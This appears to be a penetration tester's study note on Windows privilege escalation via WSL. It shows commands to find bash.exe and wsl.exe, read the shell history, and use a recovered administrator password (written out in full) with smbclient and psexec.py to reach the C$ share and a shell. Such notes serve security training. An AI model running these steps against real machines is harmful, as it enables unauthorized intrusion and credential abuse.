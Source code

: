 [[99.__Links (WINDOWS)#Escalation Path Windows Subsystem for Linux]]

```powershell - target
Get-ChildItem HKCU:\Software\Microsoft\Windows\CurrentVersion\Lxss | %{Get-ItemProperty $_.PSPath} | out-string -width 4096
```

```command prompt - windows
where /R C:\windows bash.exe
```

```command prompt - windows
where /R C:\windows wsl.exe
```


![[Pasted image 20220203172255.png]]

```command prompt - windows
C:\Windows\WinSxS\amd64_microsoft-windows-lxss-wsl_31bf3856ad364e35_10.0.17134.1_none_686f10b5380a84cf\wsl.exe whoami
```

![[Pasted image 20220203172529.png]]

```command prompt - windows
C:\Windows\WinSxS\amd64_microsoft-windows-lxss-bash_31bf3856ad364e35_10.0.17134.1_none_251beae725bc7de5\bash.exe
```

```bash - wsl
uname -a
```

![[Pasted image 20220203172713.png]]

![[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Shell break]]

```bash - wsl
history
```

![[Pasted image 20220203173050.png]]

```bash - kali
smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\$TARGET\\c$
```

[[zz._Gaining Shell Access (psexec.py)]]

```bash - kali
psexec.py '$USER:$PASSWORD'@$TARGET
```
